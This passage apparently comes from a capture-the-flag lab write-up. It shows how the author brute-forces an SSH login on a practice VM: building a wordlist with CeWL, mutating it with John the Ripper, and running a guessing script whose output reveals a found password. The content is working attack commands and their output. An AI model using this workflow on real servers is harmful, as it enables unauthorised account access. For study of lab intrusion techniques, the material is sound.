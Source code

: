 ## Brute Forcing the SSH Server
Once I had confirmed there was no IPv6 monitoring and had a reliable script to perform the attack, I built a new word list using CeWL and John [the Ripper] based on the content of Luigi's message in `luigi.php`. I then used the word list to brute force the SSH server using `getsshpass.sh`:

```shell_session
root@kali:~# cewl http://10.2.0.104:8180/luigi.php -H "Host:mario.supermariohost.local" > luigi-wordlist.txt

root@kali:~# john --wordlist=luigi-wordlist.txt --rules --stdout > luigi-wordlist-mutated.txt

root@kali:~# ./getsshpass.sh -a fe80::a00:27ff:febe:21fc%eth1 -u mario-chars-no-ext.txt -p luigi-wordlist-mutated.txt -d 22
Checking SSH connection to 'fe80::a00:27ff:febe:21fc%eth1': *** OK ***
Warning: Can't find file containing last used username and password in directory '.', starting from beginning
Trying username: 'yoshi' and password: 'Peach'
Trying username: 'yoshi' and password: 'Luiiiggiii'
Trying username: 'yoshi' and password: 'Princess'
***
Trying username: 'luigi' and password: 'luiiiggiii1'
Trying username: 'luigi' and password: 'princess1'
Trying username: 'luigi' and password: 'luigi1'
Trying username: 'luigi' and password: 'Peach1'
Trying username: 'luigi' and password: 'Luiiiggiii1'
Trying username: 'luigi' and password: 'Princess1'
*** Found username: 'luigi' and password: 'luigi1' ***
Ellapsed time: 24.19s
```
